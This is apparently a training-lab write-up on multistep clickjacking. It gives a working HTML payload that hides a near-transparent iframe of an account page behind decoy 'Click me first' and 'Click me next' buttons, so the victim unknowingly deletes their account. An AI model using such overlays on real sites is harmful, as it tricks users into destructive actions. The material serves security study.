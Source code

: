 <div align='center'>

# **Clickjacking**

</div>

## **Lab:** Multistep clickjacking

**Goal:** Construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions.

**The lab provide:** A credential wiener:peter

**Solution:**

1.  Log in as wiener and we see that the delete account function is in the `\my-account` endpoint

![](./img/1.png)

When clicking "Delete account", the website will show the confirmation dialog

![](./img/2.png)

2.  Knowing how the delete function work. We will make a payload html as below.

```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .first, .second {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .second {
		top:288px;
		left:225px;
	}
</style>
<div class="first">Click me first</div>
<div class="second">Click me next</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

The opacity = 0.0001 will make sure that the iframe is nearly invisible for the user

Here is the page (with opacity = 0.1)

![](./img/3.png)

![](./img/4.png)

3.  Send the payload to the victim to solve the lab